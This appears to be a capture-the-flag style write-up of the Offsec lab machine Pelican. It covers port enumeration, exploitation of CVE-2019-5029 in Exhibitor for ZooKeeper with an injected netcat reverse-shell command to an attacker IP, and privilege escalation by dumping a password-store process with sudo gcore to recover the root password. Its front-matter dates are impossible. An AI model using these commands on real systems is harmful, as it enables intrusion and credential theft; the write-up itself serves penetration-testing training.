 ```yaml
---
title: Pelican
date: 2023-19-15 09:45:47 +07:00
modified: 2023-19-15 09:45:47 +07:00
tags: [ Pelican, Gcore, Exhibitor, Zookeeper, CVE-2019-5029, Linux, OSCP, Writeup]
description: Write Up for Offsec Machine Pelican
image: https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/offsecbanner.jpeg)



<img src="https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Pelican</font>

​		11<sup>th</sup> October 2020

​		Machine Author(s): [Offsec]

​		

### Description:

Let's hope to see one at the zoo.

### Difficulty:

`Intermediate`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 192.168.196.98`

`nmap -sC -sV -p21,23,80 192.168.196.98 -oA ./nmap/pelican`

|Ports|Service
|22| ssh OpenSSH 7.9p1 Debian
|139| netbios-ssn Samba smbd 3.X - 4.X
|445| 563cafdc3028 Samba smbd 4.9.5-Debian
|631| ipp CUPS 2.2
|2181| zookeeper Zookeeper 3.4.6-1569965
|2222| ssh OpenSSH 7.9p1 Debian
|8080| HTTP Jetty 1.0
|8081| HTTP nginx 1.14.2

![](https://photos.squarezero.dev/file/abir-images/Pelican/1.png)

I have checked SMB share where 2 shares are listed but no access to them.

`smbmap -H 192.168.196.98`

![](https://photos.squarezero.dev/file/abir-images/Pelican/2.png)

# Foothold

I checked checked port 8081 which redirected me to port 8080.
Here I found Exhibitor for ZooKeeper.

![](https://photos.squarezero.dev/file/abir-images/Pelican/3.png)

I looked for known exploits and found [CVE-2019-5029](https://www.exploit-db.com/exploits/48654)

![](https://photos.squarezero.dev/file/abir-images/Pelican/4.png)

It's explained that as Exhibitor have any kind of authenticator we can execute Code via java.env.

First, we have to turn on Editing next we can execute commands using `$()`.

After that we Click Commit > All At Once > OK.

`$(/bin/nc -e /bin/sh 192.168.45.177 4444 &)`

![](https://photos.squarezero.dev/file/abir-images/Pelican/5.png)

It takes 30 sec for it to execute and we get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Pelican/6.png)

# Privilege Escalation

Let's get a proper shell. We can run the commands in the following order.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + z
reset
stty raw -echo; fg
stty rows 54
stty columns 141
export TERM=screen
```
We check what can Charles run as sudo and we find its [gcore]().

`sudo -l`

![](https://photos.squarezero.dev/file/abir-images/Pelican/7.png)

According to [GTFObin](https://gtfobins.github.io/gtfobins/gcore/) using gcore we can dump process and read information.

I also looked for SUID binaries and found [password-store]().

`find / -perm -u=s -type f 2>/dev/null`

![](https://photos.squarezero.dev/file/abir-images/Pelican/8.png)

Let's look for PID for password-store

`ps -aux | grep password-store`

![](https://photos.squarezero.dev/file/abir-images/Pelican/9.png)

We can now drop the process using gcore.

`sudo /usr/bin/gcore 493`

![](https://photos.squarezero.dev/file/abir-images/Pelican/10.png)

Inside the file, we can find the password of root.

![](https://photos.squarezero.dev/file/abir-images/Pelican/11.png)

Now we can login with the password and get the proof.txt.

![](https://photos.squarezero.dev/file/abir-images/Pelican/12.png)
